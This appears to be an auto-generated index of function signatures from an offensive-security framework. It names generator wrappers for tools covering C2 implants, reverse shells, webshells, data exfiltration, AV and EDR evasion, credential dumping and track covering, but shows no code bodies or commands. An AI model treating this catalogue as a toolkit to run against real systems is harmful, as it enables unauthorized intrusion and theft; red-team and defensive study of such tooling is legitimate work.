- `_gen_applocker_mshta` (line 952) `def _gen_applocker_mshta(arguments, tool_name, _cmd)`
- `_gen_applocker_presentation` (line 960) `def _gen_applocker_presentation(arguments, tool_name, _cmd)`
- `_gen_applocker_regsvcs` (line 968) `def _gen_applocker_regsvcs(arguments, tool_name, _cmd)`
- `_gen_applocker_rundll32` (line 976) `def _gen_applocker_rundll32(arguments, tool_name, _cmd)`
- `_gen_apropos` (line 984) `def _gen_apropos(arguments, tool_name, _cmd)`
- `_gen_apt_playbook` (line 992) `def _gen_apt_playbook(arguments, tool_name, _cmd)`
- `_gen_apt_proxy` (line 1000) `def _gen_apt_proxy(arguments, tool_name, _cmd)`
- `_gen_apt_repo` (line 1008) `def _gen_apt_repo(arguments, tool_name, _cmd)`
- `_gen_arjun` (line 1016) `def _gen_arjun(arguments, tool_name, _cmd)`
- `_gen_arpscan` (line 1024) `def _gen_arpscan(arguments, tool_name, _cmd)`
- `_gen_ask` (line 1032) `def _gen_ask(arguments, tool_name, _cmd)`
- `_gen_asprevbase64` (line 1040) `def _gen_asprevbase64(arguments, tool_name, _cmd)`
- `_gen_assign` (line 1048) `def _gen_assign(arguments, tool_name, _cmd)`
- `_gen_atomic_agent` (line 1056) `def _gen_atomic_agent(arguments, tool_name, _cmd)`
- `_gen_atomic_gen` (line 1064) `def _gen_atomic_gen(arguments, tool_name, _cmd)`
- `_gen_atomic_lazyown` (line 1072) `def _gen_atomic_lazyown(arguments, tool_name, _cmd)`
- `_gen_atomic_tests` (line 1080) `def _gen_atomic_tests(arguments, tool_name, _cmd)`
- `_gen_attack_plan` (line 1088) `def _gen_attack_plan(arguments, tool_name, _cmd)`
- `_gen_attack_surface` (line 1096) `def _gen_attack_surface(arguments, tool_name, _cmd)`
- `_gen_audit_complete_keys` (line 1104) `def _gen_audit_complete_keys(arguments, tool_name, _cmd)`
- `_gen_autoblody` (line 1112) `def _gen_autoblody(arguments, tool_name, _cmd)`
- `_gen_automsf` (line 1120) `def _gen_automsf(arguments, tool_name, _cmd)`
- `_gen_autopivot` (line 1128) `def _gen_autopivot(arguments, tool_name, _cmd)`
- `_gen_back` (line 1136) `def _gen_back(arguments, tool_name, _cmd)`
- `_gen_backdoor_factory` (line 1144) `def _gen_backdoor_factory(arguments, tool_name, _cmd)`
- `_gen_banner` (line 1152) `def _gen_banner(arguments, tool_name, _cmd)`
- `_gen_banners` (line 1160) `def _gen_banners(arguments, tool_name, _cmd)`
- `_gen_base64decode` (line 1168) `def _gen_base64decode(arguments, tool_name, _cmd)`
- `_gen_base64encode` (line 1176) `def _gen_base64encode(arguments, tool_name, _cmd)`
- `_gen_batchnmap` (line 1184) `def _gen_batchnmap(arguments, tool_name, _cmd)`
- `_gen_bbot` (line 1192) `def _gen_bbot(arguments, tool_name, _cmd)`
- `_gen_beaconcfg` (line 1200) `def _gen_beaconcfg(arguments, tool_name, _cmd)`
- `_gen_bin2shellcode` (line 1208) `def _gen_bin2shellcode(arguments, tool_name, _cmd)`
- `_gen_binarycheck` (line 1216) `def _gen_binarycheck(arguments, tool_name, _cmd)`
- `_gen_bitm` (line 1224) `def _gen_bitm(arguments, tool_name, _cmd)`
- `_gen_blazy` (line 1232) `def _gen_blazy(arguments, tool_name, _cmd)`
- `_gen_bloodhound` (line 1240) `def _gen_bloodhound(arguments, tool_name, _cmd)`
- `_gen_bloodyAD` (line 1248) `def _gen_bloodyAD(arguments, tool_name, _cmd)`
- `_gen_breacher` (line 1256) `def _gen_breacher(arguments, tool_name, _cmd)`
- `_gen_browse` (line 1264) `def _gen_browse(arguments, tool_name, _cmd)`
- `_gen_c2` (line 1272) `def _gen_c2(arguments, tool_name, _cmd)`
- `_gen_c2_beacon_cmd` (line 1280) `def _gen_c2_beacon_cmd(arguments, tool_name, _cmd)`
- `_gen_c2_beacons` (line 1288) `def _gen_c2_beacons(arguments, tool_name, _cmd)`
- `_gen_c2_implant` (line 1296) `def _gen_c2_implant(arguments, tool_name, _cmd)`
- `_gen_c2_keygen` (line 1304) `def _gen_c2_keygen(arguments, tool_name, _cmd)`
- `_gen_c2_quickstart` (line 1312) `def _gen_c2_quickstart(arguments, tool_name, _cmd)`
- `_gen_c2asm` (line 1320) `def _gen_c2asm(arguments, tool_name, _cmd)`
- `_gen_cacti_exploit` (line 1328) `def _gen_cacti_exploit(arguments, tool_name, _cmd)`
- `_gen_caldera` (line 1336) `def _gen_caldera(arguments, tool_name, _cmd)`
- `_gen_caldera_export` (line 1344) `def _gen_caldera_export(arguments, tool_name, _cmd)`
- `_gen_caldera_import` (line 1352) `def _gen_caldera_import(arguments, tool_name, _cmd)`
- `_gen_camphish` (line 1360) `def _gen_camphish(arguments, tool_name, _cmd)`
- `_gen_certipy` (line 1368) `def _gen_certipy(arguments, tool_name, _cmd)`
- `_gen_certipy_ad` (line 1376) `def _gen_certipy_ad(arguments, tool_name, _cmd)`
- `_gen_cewl` (line 1384) `def _gen_cewl(arguments, tool_name, _cmd)`
- `_gen_chain` (line 1392) `def _gen_chain(arguments, tool_name, _cmd)`
- `_gen_changeme` (line 1400) `def _gen_changeme(arguments, tool_name, _cmd)`
- `_gen_check_update` (line 1408) `def _gen_check_update(arguments, tool_name, _cmd)`
- `_gen_chisel` (line 1416) `def _gen_chisel(arguments, tool_name, _cmd)`
- `_gen_cicd_scan` (line 1424) `def _gen_cicd_scan(arguments, tool_name, _cmd)`
- `_gen_cicd_secrets` (line 1432) `def _gen_cicd_secrets(arguments, tool_name, _cmd)`
- `_gen_clean` (line 1440) `def _gen_clean(arguments, tool_name, _cmd)`
- `_gen_clean_ad` (line 1448) `def _gen_clean_ad(arguments, tool_name, _cmd)`
- `_gen_clock` (line 1456) `def _gen_clock(arguments, tool_name, _cmd)`
- `_gen_clone_site` (line 1464) `def _gen_clone_site(arguments, tool_name, _cmd)`
- `_gen_cloud_buckets` (line 1472) `def _gen_cloud_buckets(arguments, tool_name, _cmd)`
- `_gen_cloud_enum` (line 1480) `def _gen_cloud_enum(arguments, tool_name, _cmd)`
- `_gen_cloud_iam` (line 1488) `def _gen_cloud_iam(arguments, tool_name, _cmd)`
- `_gen_cloud_metadata` (line 1496) `def _gen_cloud_metadata(arguments, tool_name, _cmd)`
- `_gen_cloud_scan` (line 1504) `def _gen_cloud_scan(arguments, tool_name, _cmd)`
- `_gen_cme` (line 1512) `def _gen_cme(arguments, tool_name, _cmd)`
- `_gen_collab_join` (line 1520) `def _gen_collab_join(arguments, tool_name, _cmd)`
- `_gen_commix` (line 1528) `def _gen_commix(arguments, tool_name, _cmd)`
- `_gen_config_banner` (line 1536) `def _gen_config_banner(arguments, tool_name, _cmd)`
- `_gen_conptyshell` (line 1544) `def _gen_conptyshell(arguments, tool_name, _cmd)`
- `_gen_container_detect` (line 1552) `def _gen_container_detect(arguments, tool_name, _cmd)`
- `_gen_container_escape` (line 1560) `def _gen_container_escape(arguments, tool_name, _cmd)`
- `_gen_convert_remcomsvc_from_file` (line 1568) `def _gen_convert_remcomsvc_from_file(arguments, tool_name, _cmd)`
- `_gen_cover_tracks` (line 1578) `def _gen_cover_tracks(arguments, tool_name, _cmd)`
- `_gen_cp` (line 1586) `def _gen_cp(arguments, tool_name, _cmd)`
- `_gen_cports` (line 1594) `def _gen_cports(arguments, tool_name, _cmd)`
- `_gen_crack_cisco_7_password` (line 1602) `def _gen_crack_cisco_7_password(arguments, tool_name, _cmd)`
- `_gen_crack_hashes` (line 1610) `def _gen_crack_hashes(arguments, tool_name, _cmd)`
- `_gen_create_session_json` (line 1618) `def _gen_create_session_json(arguments, tool_name, _cmd)`
- `_gen_create_synthetic` (line 1626) `def _gen_create_synthetic(arguments, tool_name, _cmd)`
- `_gen_createcookie` (line 1634) `def _gen_createcookie(arguments, tool_name, _cmd)`
- `_gen_createcredentials` (line 1642) `def _gen_createcredentials(arguments, tool_name, _cmd)`
- `_gen_createdll` (line 1650) `def _gen_createdll(arguments, tool_name, _cmd)`
- `_gen_createhash` (line 1658) `def _gen_createhash(arguments, tool_name, _cmd)`
- `_gen_createjsonmachine` (line 1666) `def _gen_createjsonmachine(arguments, tool_name, _cmd)`
- `_gen_createjsonmachine_batch` (line 1674) `def _gen_createjsonmachine_batch(arguments, tool_name, _cmd)`
- `_gen_createmail` (line 1682) `def _gen_createmail(arguments, tool_name, _cmd)`
- `_gen_createpayload` (line 1690) `def _gen_createpayload(arguments, tool_name, _cmd)`
- `_gen_createrevshell` (line 1698) `def _gen_createrevshell(arguments, tool_name, _cmd)`
- `_gen_createtargets` (line 1706) `def _gen_createtargets(arguments, tool_name, _cmd)`
- `_gen_createusers_and_hashs` (line 1714) `def _gen_createusers_and_hashs(arguments, tool_name, _cmd)`
- `_gen_createwebshell` (line 1722) `def _gen_createwebshell(arguments, tool_name, _cmd)`
- `_gen_createwinrevshell` (line 1730) `def _gen_createwinrevshell(arguments, tool_name, _cmd)`
- `_gen_cred` (line 1738) `def _gen_cred(arguments, tool_name, _cmd)`
- `_gen_cred_mark_failed` (line 1746) `def _gen_cred_mark_failed(arguments, tool_name, _cmd)`
- `_gen_cred_reuse` (line 1754) `def _gen_cred_reuse(arguments, tool_name, _cmd)`
- `_gen_creds_py` (line 1762) `def _gen_creds_py(arguments, tool_name, _cmd)`
- `_gen_cron` (line 1770) `def _gen_cron(arguments, tool_name, _cmd)`
- `_gen_crunch` (line 1778) `def _gen_crunch(arguments, tool_name, _cmd)`
- `_gen_crystal_ball` (line 1786) `def _gen_crystal_ball(arguments, tool_name, _cmd)`
- `_gen_ctx` (line 1794) `def _gen_ctx(arguments, tool_name, _cmd)`
- `_gen_cubespraying` (line 1802) `def _gen_cubespraying(arguments, tool_name, _cmd)`
- `_gen_cve` (line 1810) `def _gen_cve(arguments, tool_name, _cmd)`
- `_gen_d3monizedshell` (line 1818) `def _gen_d3monizedshell(arguments, tool_name, _cmd)`
- `_gen_dacledit` (line 1826) `def _gen_dacledit(arguments, tool_name, _cmd)`
- `_gen_darkarmour` (line 1834) `def _gen_darkarmour(arguments, tool_name, _cmd)`
- `_gen_dashboard` (line 1842) `def _gen_dashboard(arguments, tool_name, _cmd)`
- `_gen_davtest` (line 1850) `def _gen_davtest(arguments, tool_name, _cmd)`
- `_gen_db_creds` (line 1858) `def _gen_db_creds(arguments, tool_name, _cmd)`
- `_gen_db_export` (line 1866) `def _gen_db_export(arguments, tool_name, _cmd)`
- `_gen_db_hosts` (line 1874) `def _gen_db_hosts(arguments, tool_name, _cmd)`
- `_gen_db_import` (line 1882) `def _gen_db_import(arguments, tool_name, _cmd)`
- `_gen_db_init` (line 1890) `def _gen_db_init(arguments, tool_name, _cmd)`
- `_gen_db_loot` (line 1898) `def _gen_db_loot(arguments, tool_name, _cmd)`
- `_gen_db_notes` (line 1906) `def _gen_db_notes(arguments, tool_name, _cmd)`
- `_gen_db_services` (line 1914) `def _gen_db_services(arguments, tool_name, _cmd)`
- `_gen_db_status` (line 1922) `def _gen_db_status(arguments, tool_name, _cmd)`
- `_gen_db_vulns` (line 1930) `def _gen_db_vulns(arguments, tool_name, _cmd)`
- `_gen_db_workspace` (line 1938) `def _gen_db_workspace(arguments, tool_name, _cmd)`
- `_gen_dcomexec` (line 1946) `def _gen_dcomexec(arguments, tool_name, _cmd)`
- `_gen_decode` (line 1954) `def _gen_decode(arguments, tool_name, _cmd)`
- `_gen_decrypt` (line 1962) `def _gen_decrypt(arguments, tool_name, _cmd)`
- `_gen_depconfuse` (line 1970) `def _gen_depconfuse(arguments, tool_name, _cmd)`
- `_gen_depscan` (line 1978) `def _gen_depscan(arguments, tool_name, _cmd)`
- `_gen_detect_edr` (line 1986) `def _gen_detect_edr(arguments, tool_name, _cmd)`
- `_gen_dig` (line 1994) `def _gen_dig(arguments, tool_name, _cmd)`
- `_gen_digdug` (line 2002) `def _gen_digdug(arguments, tool_name, _cmd)`
- `_gen_dirsearch` (line 2010) `def _gen_dirsearch(arguments, tool_name, _cmd)`
- `_gen_disableav` (line 2018) `def _gen_disableav(arguments, tool_name, _cmd)`
- `_gen_dmitry` (line 2026) `def _gen_dmitry(arguments, tool_name, _cmd)`
- `_gen_dns_beacon` (line 2034) `def _gen_dns_beacon(arguments, tool_name, _cmd)`
- `_gen_dns_beacon_status` (line 2042) `def _gen_dns_beacon_status(arguments, tool_name, _cmd)`
- `_gen_dns_exfil_listen` (line 2050) `def _gen_dns_exfil_listen(arguments, tool_name, _cmd)`
- `_gen_dnschef` (line 2058) `def _gen_dnschef(arguments, tool_name, _cmd)`
- `_gen_dnsenum` (line 2066) `def _gen_dnsenum(arguments, tool_name, _cmd)`
- `_gen_dnsmap` (line 2074) `def _gen_dnsmap(arguments, tool_name, _cmd)`
- `_gen_dnstool_py` (line 2082) `def _gen_dnstool_py(arguments, tool_name, _cmd)`
- `_gen_docker_enum` (line 2090) `def _gen_docker_enum(arguments, tool_name, _cmd)`
- `_gen_doctor` (line 2098) `def _gen_doctor(arguments, tool_name, _cmd)`
- `_gen_dominion` (line 2106) `def _gen_dominion(arguments, tool_name, _cmd)`
- `_gen_download_c2` (line 2114) `def _gen_download_c2(arguments, tool_name, _cmd)`
- `_gen_download_exploit` (line 2122) `def _gen_download_exploit(arguments, tool_name, _cmd)`
- `_gen_download_malwarebazar` (line 2130) `def _gen_download_malwarebazar(arguments, tool_name, _cmd)`
- `_gen_download_resources` (line 2138) `def _gen_download_resources(arguments, tool_name, _cmd)`
- `_gen_downloader` (line 2146) `def _gen_downloader(arguments, tool_name, _cmd)`
- `_gen_dpapi_blob` (line 2154) `def _gen_dpapi_blob(arguments, tool_name, _cmd)`
- `_gen_dpapi_harvest` (line 2162) `def _gen_dpapi_harvest(arguments, tool_name, _cmd)`
- `_gen_dpapi_masterkeys` (line 2170) `def _gen_dpapi_masterkeys(arguments, tool_name, _cmd)`
- `_gen_dploot` (line 2178) `def _gen_dploot(arguments, tool_name, _cmd)`
- `_gen_dr0p1t` (line 2186) `def _gen_dr0p1t(arguments, tool_name, _cmd)`
- `_gen_duckyspark` (line 2194) `def _gen_duckyspark(arguments, tool_name, _cmd)`
- `_gen_edr_detect` (line 2202) `def _gen_edr_detect(arguments, tool_name, _cmd)`
- `_gen_edr_profile` (line 2210) `def _gen_edr_profile(arguments, tool_name, _cmd)`
- `_gen_edr_script` (line 2218) `def _gen_edr_script(arguments, tool_name, _cmd)`
- `_gen_emp3r0r` (line 2226) `def _gen_emp3r0r(arguments, tool_name, _cmd)`
- `_gen_empire` (line 2234) `def _gen_empire(arguments, tool_name, _cmd)`
- `_gen_encode` (line 2242) `def _gen_encode(arguments, tool_name, _cmd)`
- `_gen_encoderpayload` (line 2250) `def _gen_encoderpayload(arguments, tool_name, _cmd)`
- `_gen_encodewinbase64` (line 2258) `def _gen_encodewinbase64(arguments, tool_name, _cmd)`
- `_gen_encrypt` (line 2266) `def _gen_encrypt(arguments, tool_name, _cmd)`
- `_gen_engage` (line 2274) `def _gen_engage(arguments, tool_name, _cmd)`
- `_gen_enum4linux` (line 2282) `def _gen_enum4linux(arguments, tool_name, _cmd)`
- `_gen_enum4linux_ng` (line 2290) `def _gen_enum4linux_ng(arguments, tool_name, _cmd)`
- `_gen_eternal` (line 2298) `def _gen_eternal(arguments, tool_name, _cmd)`
- `_gen_evasion` (line 2306) `def _gen_evasion(arguments, tool_name, _cmd)`
- `_gen_evasive` (line 2314) `def _gen_evasive(arguments, tool_name, _cmd)`
- `_gen_evasive_payload` (line 2322) `def _gen_evasive_payload(arguments, tool_name, _cmd)`
- `_gen_event_log` (line 2330) `def _gen_event_log(arguments, tool_name, _cmd)`
- `_gen_evidence` (line 2338) `def _gen_evidence(arguments, tool_name, _cmd)`
- `_gen_evil_ssdp` (line 2346) `def _gen_evil_ssdp(arguments, tool_name, _cmd)`
- `_gen_evilwinrm` (line 2354) `def _gen_evilwinrm(arguments, tool_name, _cmd)`
- `_gen_excelntdonut` (line 2362) `def _gen_excelntdonut(arguments, tool_name, _cmd)`
- `_gen_exe2bin` (line 2370) `def _gen_exe2bin(arguments, tool_name, _cmd)`
- `_gen_exe2donutbin` (line 2378) `def _gen_exe2donutbin(arguments, tool_name, _cmd)`
- `_gen_exfil_auto` (line 2386) `def _gen_exfil_auto(arguments, tool_name, _cmd)`
- `_gen_exfil_discord` (line 2394) `def _gen_exfil_discord(arguments, tool_name, _cmd)`
- `_gen_exfil_dns` (line 2402) `def _gen_exfil_dns(arguments, tool_name, _cmd)`
- `_gen_exfil_gcs` (line 2410) `def _gen_exfil_gcs(arguments, tool_name, _cmd)`
- `_gen_exfil_http` (line 2418) `def _gen_exfil_http(arguments, tool_name, _cmd)`
- `_gen_exfil_s3` (line 2426) `def _gen_exfil_s3(arguments, tool_name, _cmd)`
- `_gen_exfil_start_server` (line 2434) `def _gen_exfil_start_server(arguments, tool_name, _cmd)`
- `_gen_exfil_telegram` (line 2442) `def _gen_exfil_telegram(arguments, tool_name, _cmd)`
- `_gen_exit` (line 2450) `def _gen_exit(arguments, tool_name, _cmd)`
- `_gen_explore` (line 2458) `def _gen_explore(arguments, tool_name, _cmd)`
- `_gen_extract_ports` (line 2466) `def _gen_extract_ports(arguments, tool_name, _cmd)`
- `_gen_extract_yaml` (line 2474) `def _gen_extract_yaml(arguments, tool_name, _cmd)`
- `_gen_eyewitness` (line 2482) `def _gen_eyewitness(arguments, tool_name, _cmd)`
- `_gen_eyewitness_py` (line 2490) `def _gen_eyewitness_py(arguments, tool_name, _cmd)`
- `_gen_feroxbuster` (line 2498) `def _gen_feroxbuster(arguments, tool_name, _cmd)`
- `_gen_filtering` (line 2506) `def _gen_filtering(arguments, tool_name, _cmd)`
- `_gen_finalrecon` (line 2514) `def _gen_finalrecon(arguments, tool_name, _cmd)`
- `_gen_find` (line 2522) `def _gen_find(arguments, tool_name, _cmd)`
- `_gen_finger_user_enum` (line 2530) `def _gen_finger_user_enum(arguments, tool_name, _cmd)`
- `_gen_fixel` (line 2538) `def _gen_fixel(arguments, tool_name, _cmd)`
- `_gen_fixperm` (line 2546) `def _gen_fixperm(arguments, tool_name, _cmd)`
- `_gen_follina` (line 2554) `def _gen_follina(arguments, tool_name, _cmd)`
- `_gen_form` (line 2562) `def _gen_form(arguments, tool_name, _cmd)`
- `_gen_ftp` (line 2570) `def _gen_ftp(arguments, tool_name, _cmd)`
- `_gen_fuzz` (line 2578) `def _gen_fuzz(arguments, tool_name, _cmd)`
- `_gen_fz` (line 2586) `def _gen_fz(arguments, tool_name, _cmd)`
- `_gen_gencert` (line 2594) `def _gen_gencert(arguments, tool_name, _cmd)`
- `_gen_generate` (line 2602) `def _gen_generate(arguments, tool_name, _cmd)`
- `_gen_generate_playbook` (line 2610) `def _gen_generate_playbook(arguments, tool_name, _cmd)`
- `_gen_generate_revshell` (line 2618) `def _gen_generate_revshell(arguments, tool_name, _cmd)`
- `_gen_generatedic` (line 2626) `def _gen_generatedic(arguments, tool_name, _cmd)`
- `_gen_getTGT` (line 2634) `def _gen_getTGT(arguments, tool_name, _cmd)`
- `_gen_get_avaible_actions` (line 2642) `def _gen_get_avaible_actions(arguments, tool_name, _cmd)`
- `_gen_getadusers` (line 2650) `def _gen_getadusers(arguments, tool_name, _cmd)`
- `_gen_getcap` (line 2658) `def _gen_getcap(arguments, tool_name, _cmd)`
- `_gen_getnpusers` (line 2666) `def _gen_getnpusers(arguments, tool_name, _cmd)`
- `_gen_getnthash_py` (line 2674) `def _gen_getnthash_py(arguments, tool_name, _cmd)`
- `_gen_gets4uticket_py` (line 2682) `def _gen_gets4uticket_py(arguments, tool_name, _cmd)`
- `_gen_getseclist` (line 2690) `def _gen_getseclist(arguments, tool_name, _cmd)`
- `_gen_gettgtpkinit_py` (line 2698) `def _gen_gettgtpkinit_py(arguments, tool_name, _cmd)`
- `_gen_getuserspns` (line 2706) `def _gen_getuserspns(arguments, tool_name, _cmd)`
- `_gen_gitdumper` (line 2714) `def _gen_gitdumper(arguments, tool_name, _cmd)`
- `_gen_gitlab_enum` (line 2722) `def _gen_gitlab_enum(arguments, tool_name, _cmd)`
- `_gen_gmsadumper` (line 2730) `def _gen_gmsadumper(arguments, tool_name, _cmd)`
- `_gen_gobuster` (line 2738) `def _gen_gobuster(arguments, tool_name, _cmd)`
- `_gen_god_nodes` (line 2746) `def _gen_god_nodes(arguments, tool_name, _cmd)`
- `_gen_gospherus` (line 2754) `def _gen_gospherus(arguments, tool_name, _cmd)`
- `_gen_gospider` (line 2762) `def _gen_gospider(arguments, tool_name, _cmd)`
- `_gen_gowitness` (line 2770) `def _gen_gowitness(arguments, tool_name, _cmd)`
- `_gen_gpt` (line 2778) `def _gen_gpt(arguments, tool_name, _cmd)`
- `_gen_graph` (line 2786) `def _gen_graph(arguments, tool_name, _cmd)`
- `_gen_graph_overlay` (line 2794) `def _gen_graph_overlay(arguments, tool_name, _cmd)`
- `_gen_graudit` (line 2802) `def _gen_graudit(arguments, tool_name, _cmd)`
- `_gen_greatSCT` (line 2810) `def _gen_greatSCT(arguments, tool_name, _cmd)`
- `_gen_grep_log` (line 2818) `def _gen_grep_log(arguments, tool_name, _cmd)`
- `_gen_grisun0` (line 2826) `def _gen_grisun0(arguments, tool_name, _cmd)`
- `_gen_grisun0w` (line 2834) `def _gen_grisun0w(arguments, tool_name, _cmd)`
- `_gen_groq` (line 2842) `def _gen_groq(arguments, tool_name, _cmd)`
- `_gen_gtfo` (line 2850) `def _gen_gtfo(arguments, tool_name, _cmd)`
- `_gen_gym` (line 2858) `def _gen_gym(arguments, tool_name, _cmd)`
- `_gen_h` (line 2866) `def _gen_h(arguments, tool_name, _cmd)`
- `_gen_hashcat` (line 2874) `def _gen_hashcat(arguments, tool_name, _cmd)`
- `_gen_hex2shellcode` (line 2882) `def _gen_hex2shellcode(arguments, tool_name, _cmd)`
- `_gen_hex_to_plaintext` (line 2890) `def _gen_hex_to_plaintext(arguments, tool_name, _cmd)`
- `_gen_hooks` (line 2898) `def _gen_hooks(arguments, tool_name, _cmd)`
- `_gen_hooks_add` (line 2906) `def _gen_hooks_add(arguments, tool_name, _cmd)`
- `_gen_hooks_enable` (line 2914) `def _gen_hooks_enable(arguments, tool_name, _cmd)`
- `_gen_hooks_fire` (line 2922) `def _gen_hooks_fire(arguments, tool_name, _cmd)`
- `_gen_hooks_list` (line 2930) `def _gen_hooks_list(arguments, tool_name, _cmd)`
- `_gen_hooks_remove` (line 2938) `def _gen_hooks_remove(arguments, tool_name, _cmd)`
- `_gen_hostdiscover` (line 2946) `def _gen_hostdiscover(arguments, tool_name, _cmd)`
- `_gen_hound` (line 2954) `def _gen_hound(arguments, tool_name, _cmd)`
- `_gen_http_exfil_server` (line 2962) `def _gen_http_exfil_server(arguments, tool_name, _cmd)`
- `_gen_httprobe` (line 2970) `def _gen_httprobe(arguments, tool_name, _cmd)`
- `_gen_hunt` (line 2978) `def _gen_hunt(arguments, tool_name, _cmd)`
- `_gen_hydra` (line 2986) `def _gen_hydra(arguments, tool_name, _cmd)`
- `_gen_id_rsa` (line 2994) `def _gen_id_rsa(arguments, tool_name, _cmd)`
- `_gen_ignorearp` (line 3002) `def _gen_ignorearp(arguments, tool_name, _cmd)`
- `_gen_ignoreicmp` (line 3010) `def _gen_ignoreicmp(arguments, tool_name, _cmd)`
- `_gen_iis_webdav_upload_asp` (line 3018) `def _gen_iis_webdav_upload_asp(arguments, tool_name, _cmd)`
- `_gen_img2cookie` (line 3026) `def _gen_img2cookie(arguments, tool_name, _cmd)`
- `_gen_img2vid` (line 3034) `def _gen_img2vid(arguments, tool_name, _cmd)`
- `_gen_internet_proxy` (line 3042) `def _gen_internet_proxy(arguments, tool_name, _cmd)`
- `_gen_ip` (line 3050) `def _gen_ip(arguments, tool_name, _cmd)`
- `_gen_ip2asn` (line 3058) `def _gen_ip2asn(arguments, tool_name, _cmd)`
- `_gen_ip2hex` (line 3066) `def _gen_ip2hex(arguments, tool_name, _cmd)`
- `_gen_ipinfo` (line 3074) `def _gen_ipinfo(arguments, tool_name, _cmd)`
- `_gen_ipp` (line 3082) `def _gen_ipp(arguments, tool_name, _cmd)`
- `_gen_issue_command_to_c2` (line 3090) `def _gen_issue_command_to_c2(arguments, tool_name, _cmd)`
- `_gen_ivy` (line 3098) `def _gen_ivy(arguments, tool_name, _cmd)`
- `_gen_jenkins_enum` (line 3106) `def _gen_jenkins_enum(arguments, tool_name, _cmd)`
- `_gen_john2hash` (line 3114) `def _gen_john2hash(arguments, tool_name, _cmd)`
- `_gen_john2keepas` (line 3122) `def _gen_john2keepas(arguments, tool_name, _cmd)`
- `_gen_john2zip` (line 3130) `def _gen_john2zip(arguments, tool_name, _cmd)`
- `_gen_jwt_tool` (line 3138) `def _gen_jwt_tool(arguments, tool_name, _cmd)`
- `_gen_k8s_enum` (line 3146) `def _gen_k8s_enum(arguments, tool_name, _cmd)`
- `_gen_k8s_pods` (line 3154) `def _gen_k8s_pods(arguments, tool_name, _cmd)`
- `_gen_k8s_secrets` (line 3162) `def _gen_k8s_secrets(arguments, tool_name, _cmd)`
- `_gen_karma` (line 3170) `def _gen_karma(arguments, tool_name, _cmd)`
- `_gen_keepass` (line 3178) `def _gen_keepass(arguments, tool_name, _cmd)`
- `_gen_kerbrute` (line 3186) `def _gen_kerbrute(arguments, tool_name, _cmd)`
- `_gen_kick` (line 3194) `def _gen_kick(arguments, tool_name, _cmd)`
- `_gen_knokknok` (line 3202) `def _gen_knokknok(arguments, tool_name, _cmd)`
- `_gen_krbrelayx_py` (line 3210) `def _gen_krbrelayx_py(arguments, tool_name, _cmd)`
- `_gen_kusa` (line 3218) `def _gen_kusa(arguments, tool_name, _cmd)`
- `_gen_l00t` (line 3226) `def _gen_l00t(arguments, tool_name, _cmd)`
- `_gen_lab` (line 3234) `def _gen_lab(arguments, tool_name, _cmd)`
- `_gen_lateral_mov_lin` (line 3242) `def _gen_lateral_mov_lin(arguments, tool_name, _cmd)`
- `_gen_launchpad` (line 3250) `def _gen_launchpad(arguments, tool_name, _cmd)`
- `_gen_lazy_payload_keys` (line 3258) `def _gen_lazy_payload_keys(arguments, tool_name, _cmd)`
- `_gen_lazy_runtime` (line 3266) `def _gen_lazy_runtime(arguments, tool_name, _cmd)`
- `_gen_lazynmap` (line 3274) `def _gen_lazynmap(arguments, tool_name, _cmd)`
- `_gen_lazypwn` (line 3282) `def _gen_lazypwn(arguments, tool_name, _cmd)`
- `_gen_lazyreport` (line 3290) `def _gen_lazyreport(arguments, tool_name, _cmd)`
- `_gen_lazyscript` (line 3298) `def _gen_lazyscript(arguments, tool_name, _cmd)`
- `_gen_lazywebshell` (line 3306) `def _gen_lazywebshell(arguments, tool_name, _cmd)`
- `_gen_ldapdomaindump` (line 3314) `def _gen_ldapdomaindump(arguments, tool_name, _cmd)`
- `_gen_ldapsearch` (line 3322) `def _gen_ldapsearch(arguments, tool_name, _cmd)`
- `_gen_les` (line 3330) `def _gen_les(arguments, tool_name, _cmd)`
- `_gen_lfi` (line 3338) `def _gen_lfi(arguments, tool_name, _cmd)`
- `_gen_ligolo` (line 3346) `def _gen_ligolo(arguments, tool_name, _cmd)`
- `_gen_links` (line 3354) `def _gen_links(arguments, tool_name, _cmd)`
- `_gen_linpeas` (line 3362) `def _gen_linpeas(arguments, tool_name, _cmd)`
- `_gen_list` (line 3370) `def _gen_list(arguments, tool_name, _cmd)`
- `_gen_listaliases` (line 3378) `def _gen_listaliases(arguments, tool_name, _cmd)`
- `_gen_listener` (line 3386) `def _gen_listener(arguments, tool_name, _cmd)`
- `_gen_listener_go` (line 3394) `def _gen_listener_go(arguments, tool_name, _cmd)`
- `_gen_listener_py` (line 3402) `def _gen_listener_py(arguments, tool_name, _cmd)`
- `_gen_llm_budget` (line 3410) `def _gen_llm_budget(arguments, tool_name, _cmd)`
- `_gen_load_session` (line 3418) `def _gen_load_session(arguments, tool_name, _cmd)`
- `_gen_lock_target` (line 3426) `def _gen_lock_target(arguments, tool_name, _cmd)`
- `_gen_login` (line 3434) `def _gen_login(arguments, tool_name, _cmd)`
- `_gen_logout` (line 3442) `def _gen_logout(arguments, tool_name, _cmd)`
- `_gen_lol` (line 3450) `def _gen_lol(arguments, tool_name, _cmd)`
- `_gen_lookupsid` (line 3458) `def _gen_lookupsid(arguments, tool_name, _cmd)`
- `_gen_lookupsid_py` (line 3466) `def _gen_lookupsid_py(arguments, tool_name, _cmd)`
- `_gen_loot` (line 3474) `def _gen_loot(arguments, tool_name, _cmd)`
- `_gen_loxs` (line 3482) `def _gen_loxs(arguments, tool_name, _cmd)`
- `_gen_lynis` (line 3490) `def _gen_lynis(arguments, tool_name, _cmd)`
- `_gen_macos_keychain` (line 3498) `def _gen_macos_keychain(arguments, tool_name, _cmd)`
- `_gen_macos_persist` (line 3506) `def _gen_macos_persist(arguments, tool_name, _cmd)`
- `_gen_macos_tcc` (line 3514) `def _gen_macos_tcc(arguments, tool_name, _cmd)`
- `_gen_magicrecon` (line 3522) `def _gen_magicrecon(arguments, tool_name, _cmd)`
- `_gen_makerc` (line 3530) `def _gen_makerc(arguments, tool_name, _cmd)`
- `_gen_malwarebazar` (line 3538) `def _gen_malwarebazar(arguments, tool_name, _cmd)`
- `_gen_marketplace` (line 3546) `def _gen_marketplace(arguments, tool_name, _cmd)`
- `_gen_marketplace_config` (line 3554) `def _gen_marketplace_config(arguments, tool_name, _cmd)`
- `_gen_medusa` (line 3562) `def _gen_medusa(arguments, tool_name, _cmd)`
- `_gen_metabigor` (line 3570) `def _gen_metabigor(arguments, tool_name, _cmd)`
- `_gen_mfa_bypass` (line 3578) `def _gen_mfa_bypass(arguments, tool_name, _cmd)`
- `_gen_mimikatzpy` (line 3586) `def _gen_mimikatzpy(arguments, tool_name, _cmd)`
